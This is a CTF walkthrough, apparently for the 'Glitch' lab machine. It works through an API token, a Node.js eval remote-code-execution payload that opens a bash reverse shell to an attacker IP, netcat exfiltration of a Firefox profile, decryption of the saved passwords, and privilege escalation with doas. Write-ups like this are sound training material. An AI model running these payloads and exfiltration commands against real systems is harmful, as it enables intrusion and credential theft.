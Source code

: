 1) Wait about 5 minutes until the 'error 502' disappears and the page loads.

2) Open the `development tools` and open the  tag script`.

3) From the code below:

```

      function getAccess () {
        fetch ('/ api / ac ** ss')          <---------------------
          .then ((response) => response.json ())
          .then ((response) => {
            console.log (response);
          });
      }
    
```

We have endpoint to `first api`

4) We attach to the link `/api/ac ** ss` and the encoded  `token` appears:

```dGhpc **** 3RfcmVhbA ==```

5) You will immediately notice that the sequence looks familiar it is `base64`.

Go to, for example, this page: [base64_decode](base64decode.org/)

We enter  `encoded token` and get `decoded`:

```this_is _ * _ **```

6) Go back to the `main page` and go to the` development tools`.

We go to the `Cookies` tab and see the `token` set to the value of `value`, double click on it and change the value to `decoded token`.

After all this 'refresh the page' (f5)

7) Another page appears, go to the `debugger` tab.

On the left panel, open the `js` tab and click on the` script.js` file

```
  const container = document.getElementById ('items');
  await fetch ('/api/**')                               <------------------------
    .then ((response) => response.json ())
    .then ((response) => {
      response.sins.forEach ((element) => {

```

From the above code we can see another endpoint to the `next API`.

8) We append it to our `link` and intercept the `request` with e.g. the `burp` program in my example.

9) We do `send to reapeater` and we do` send`.

If unsuccessful `remove` from` Header request`:

```
    If-None-Match: W / "a9-0aR6bAfiK / DB + ***"

```

And everything should be working by now.

10) We check what queries the API `allows`.

We change `GET` to` OPTIONS`

```OPTIONS /api/i * HTTP / 1.1```

11) We see that we can do the following in this endpoint:

```GET, HEAD, POST```

12) We check possible parameters:

```wfuzz -c -z file, /usr/share/wordlists/common.txt -X POST --hh 45 -u http://<IP>/api/i*\?FUZZ\=test```

We see an eval function that should give us a lot to think about:

```
    ReferenceError: test is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60
```

13) We are interested in `POST`. We are looking for `NodeJs RCE eval` on the internet.

I used this site: [site](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6)

There I have noticed the `exploit` it will use.

14) We change in `burp` parameter to `post` and add `?cmd=` and attach `exploit`:

```
    POST /api/i*?cmd=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261"') HTTP / 1.1
```

In the terminal, enter `nc -lvpn <PORT>`

And click `send`. We should have accessed the user `user`.

15) We go to the `/home/user` directory and see the `first flag`.

16) After cat the flag (`cat <file>`) we show all the files in the directory `ls -la`.

We may notice the hidden `.firefox` directory. We enter it `cd .firefox`.

We see what looks like the session directory `b5w4643p.default-release`.

17) We download to our machine: [Firefox_decrypt](https://github.com/unode/firefox_decrypt)

We pack sessions from the server `tar -cf archive.tar ./b*`.

Using (https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)[netcat] we send the file to our computer.

On our computer, type: `nc -l -p 1234> ./archive.tar`.

And on the server: `nc -w 3 <IP> 1234 < ./archive.tar`.

18) Then with `firefox_decrypt` we decrypt the password to the user `v0id`:

```./firefox_decrypt.py ./( PATH TO DIRECTORY) b5w4643p.default-release```


After a while it appears to us:

```

    Website: https: //glitch.thm
    Username: 'v0id'
    Password: 'love_ *'


```

19) We switch to user `v0id` with `su v0id`.

If you see: `su: must be run from a terminal`. Enter: `python3 -c 'import pty; pty.spawn("/bin/bash")'`. And then we try again.

20) With the command `doas` we increase our privileges to the user `root`.

```doas -u root  /bin/bash```

21) We go to the `/root` directory and get the `last flag`.
